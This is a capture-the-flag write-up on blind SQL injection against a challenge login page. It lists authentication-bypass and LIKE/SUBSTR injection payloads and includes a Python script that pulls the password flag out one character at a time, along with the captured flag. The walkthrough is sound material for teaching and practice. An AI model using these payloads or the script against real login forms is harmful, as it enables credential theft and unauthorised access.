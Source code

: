 # Blindfold Enthusiasts

## Challenge Description

Look a blindfold enthusiast club login page. Wonder what I can get out of here


## First look at the webpage

We are presented with a simple login page.  
![screenshot1](assets/screenshot1.jpg)

The name of the challenge already hints that it'll be a blind SQL injection attack.

Let's try some SQL injecion:
- username: `' or 1=1 -- -`
- password: `anything`

![screenshot2](assets/screenshot2.jpg)

Turns out, both username and password had to be correct to do it. (maybe the query was written in multiple lines?)
- username: `' or 1=1 -- -`
- password: `' or 1=1 -- -`

![screenshot3](assets/screenshot3.jpg)

Seems like we will only be getting a success message for injecting successfully.


## Trying to leak the password

My guess was that the correct password would be the flag, and we are supposed to find the user's password.

My guess of a possible query that's being used in this case:  
```SQL
SELECT *
FROM user
WHERE username = '$username'
AND password = '$password'
```

Using these payloads:
- username: `' or 1=1 -- -`
- password: `' or password LIKE 'NYP{%}' -- -`

Will result in a query looking like this:  
```SQL
SELECT *
FROM user
WHERE username = '' or 1=1 -- -'
AND password = '' or password LIKE 'NYP{%}' -- -'
```

![If you are reading this, yes I used the same screenshot cause I'm lazy](assets/screenshot3.jpg)

Since the payload worked, it confirms that the flag is the password.


## Solution

To leak the flag, I can check the left few characters of the flag for each character till I get the whole flag.

Basically:
- username: `' or 1=1 -- -`
- password: `' or SUBSTR(password, 1, <length of guess>) = '<guessed characters>' -- -`

[Script](script.py) to automate the guessing proccess:  
```python
import requests
from string import printable

URL = "https://blind.nypinfosec.tk"
YES = "You Did It"

password = "NYP{"
while password[-1] != "}":
    print(f"Password cracking in progress: {password}")
    for char in printable:
        guess = password+char
        resp = requests.post(URL, data={
            "username": "' or 1 -- -",
            "password": f"' or SUBSTR(password, 1, {len(guess)}) = '{guess}' -- -"
        })
        if YES in resp.text:
            password += char
            break

print(f"\nSuccess!\nPassword get: {password}")
```

Output:  
![screenshot4](assets/screenshot4.jpg)

Flag Captured: `NYP{Bl1ndF01d5-4rE-4m4Z1ng}`
